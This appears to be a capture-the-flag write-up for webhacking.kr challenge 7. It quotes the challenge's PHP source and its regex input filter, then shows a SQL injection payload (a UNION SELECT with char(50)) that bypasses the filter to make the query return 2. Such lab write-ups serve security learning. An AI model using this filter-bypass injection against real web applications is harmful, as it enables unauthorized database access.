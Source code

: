 Problem6
===========   

This problem is in webhacking.kr.   
URL: <https://webhacking.kr/challenge/web-07/index.php?val=1>   
 
If you enter in the URL, you can see like the bottom photo.     
    
<img src="./image/1.png"/> 
    
Then, if you click the button named auth, the page will show "Access Denied".    
    
Thus, let's go to the view-source link.    

<img src="./image/2.png"/>    
     
### Let's pay attention to bottom the source code.   
    

```
$data=mysqli_fetch_array($result);
if(!$data[0]) { echo("query error"); exit(); }
if($data[0]==1){
  echo("<input type=button style=border:0;bgcolor='gray' value='auth' onclick=\"alert('Access_Denied!')\"><p>");
}
elseif($data[0]==2){
  echo("<input type=button style=border:0;bgcolor='gray' value='auth' onclick=\"alert('Hello admin')\"><p>");
  solve(7);
}
```

We can know that if the value of $data[0] is 2, this problem is solved. 
    
```
$go=$_GET['val'];
if(!$go) { echo("<meta http-equiv=refresh content=0;url=index.php?val=1>"); }
echo("<html><head><title>admin page</title></head><body bgcolor='black'><font size=2 color=gray><b><h3>Admin page</h3></b><p>");
if(preg_match("/2|-|\+|from|_|=|\\s|\*|\//i",$go)) exit("Access Denied!");
$db = dbconnect();
$rand=rand(1,5);
```   

Let's go back to the front on the source code.    
The value of $go is stored by GET method, so we should input two(2) into <strong>"val"</strong> existing in the url. 
But, <strong>/2|-|\+|from|_|=|\\s|\*|\//i</strong> filter the input data that is (2, Operators, white space etc..). 
Thus, we can access to ASCII CODE, so the ascii value of 2 is 50.   

```
select lv from chall7 where lv=($go)
```    
     
To put the value of 2 to $go in the query statment, we can enter the data like <strong>?val=1)union(select(char(50))</strong>.      
I used '(' or ')' because it is not filtered.   

```
select lv from chall7 where lv=(1)union(select(char(50)))
```
    
Through this, we can solve the problem number 7.    
The code produces the random value, so if you enter <strong>?val=1)union(select(char(50))</strong> a few times, it is solved.    

<img src="./image/3.png"/>     



    
